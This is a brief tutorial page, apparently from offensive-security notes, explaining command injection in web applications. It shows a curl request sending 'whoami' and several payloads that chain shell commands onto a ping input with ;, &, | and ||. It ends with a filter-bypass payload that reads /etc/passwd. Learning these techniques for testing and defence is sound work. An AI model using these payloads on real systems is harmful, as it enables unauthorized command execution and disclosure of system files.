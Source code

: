 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Command injection

Allow to execute arbitrary system commands on a host operating system via a vulnerable application. Normally happens when a web application takes a user-supplied input and passes it directly to a shell interpreter.

We can find a typical example of this vulnerability as follows:

* When internally using functions like _system_ or _shell\_exec_ which pass input to an internal command interpreter

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with a command
curl -X POST http://url/? -d "cmd=whoami"
#If being handled by system(), it will respond with the output of the command, letting us we can talk to the internal shell
```
{% endcode %}

***

* In some cases, the application will receive input and redirect it to an internal command executed in the server shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#A form receives the IP as input and executes the ping command
8.8.8.8
#Example output
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=26.4 ms
...
#Ww see that it works like the following command inside
ping $input
```
{% endcode %}

***

* We can abuse this input to add other commands using the command operators

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">8.8.8.8; ls -la
<strong>8.8.8.8 &#x26; ls -la    
</strong>8.8.8.8 &#x26;&#x26; ls -la
8.8.8.8 | ls -la
8.8.8.8 || ls -la
</code></pre>

***

* Sometimes it could be sanitized to detect these symbols, so to avoid detection, we can combine operators and commands into a single string, which helps bypass filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
8.8.8.8|cat /etc/passwd
```
{% endcode %}
